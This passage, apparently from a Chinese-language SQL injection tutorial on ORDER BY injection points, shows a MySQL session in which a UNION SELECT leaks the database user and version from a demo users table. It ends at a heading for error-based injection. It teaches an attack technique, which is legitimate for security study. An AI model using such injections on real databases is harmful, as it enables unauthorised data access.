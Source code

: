 ![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165136764.png)

```sql
mysql&gt; (select * from users order by id) union select 1,user(),3,4,version();
&#43;----&#43;----------------&#43;----------&#43;------&#43;-----------&#43;
| id | name           | pass     | age  | area      |
&#43;----&#43;----------------&#43;----------&#43;------&#43;-----------&#43;
|  1 | test1          | 123456   |   18 | beijing   |
|  2 | test2          | 543210   |   20 | shanghai  |
|  3 | user1          | qwer1234 |   28 | guangzhou |
|  4 | aduser         | 123456   |   10 | beijing   |
|  1 | root@127.0.0.1 | 3        |    4 | 8.0.31    |
&#43;----&#43;----------------&#43;----------&#43;------&#43;-----------&#43;
5 rows in set (0.01 sec)
```

![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165152148.png)

### 4、报错注入
